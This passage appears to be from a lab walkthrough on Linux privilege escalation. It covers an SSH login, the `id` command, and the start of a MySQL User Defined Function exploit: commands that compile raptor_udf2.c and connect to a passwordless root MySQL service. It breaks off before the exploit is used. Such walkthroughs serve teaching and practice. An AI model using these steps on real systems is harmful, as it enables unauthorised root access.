 Type `yes` and press Enter.

**Explanation:**  
SSH (Secure Shell) allows us to securely connect to the target machine, providing us with command-line access to begin our privilege escalation practice.

### Q2. What is the result of the “id” command?

#### Action

Once logged in, run the following command to check the user ID, group ID, and associated groups:

```bash
id
```

**Sample Output:**

```bash
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

**Explanation:**  
The `id` command displays the user ID (UID), group ID (GID), and the groups the current user belongs to. This information is essential for understanding the user's privileges on the system and potential avenues for privilege escalation.


## Service Exploits

### Exploiting the MySQL Service

The MySQL service is running as root, and the "root" user for the service does not have a password assigned. This allows us to use a popular exploit that takes advantage of User Defined Functions (UDFs) to execute system commands as root via the MySQL service.

### Step 1: Compile the Exploit Code

First, navigate to the directory containing the exploit code:

```bash
cd /home/user/tools/mysql-udf
```

Compile the `raptor_udf2.c` exploit code using the following commands:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

### Step 2: Connect to MySQL as Root

Connect to the MySQL service as the root user with no password:

```bash
mysql -u root
```
